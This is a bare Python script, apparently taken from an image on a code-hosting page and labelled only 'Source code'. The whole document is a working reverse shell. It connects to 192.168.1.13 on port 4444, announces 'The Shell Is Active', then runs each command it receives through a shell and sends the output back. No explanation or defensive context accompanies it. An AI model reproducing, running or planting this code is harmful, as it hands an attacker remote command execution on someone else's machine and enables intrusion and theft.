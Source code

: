 from socket import socket,AF_INET,SOCK_STREAM
from subprocess import PIPE	, Popen
s = socket(AF_INET, SOCK_STREAM)
s.connect(("192.168.1.13", 4444))
s.send(b'The Shell Is Active')
while True:
	data = s.recv(1024).decode("utf-8")
	process = Popen([data], stdout=PIPE, shell=True)
	command_data = process.communicate()[0]
	s.send(command_data)
s.close()
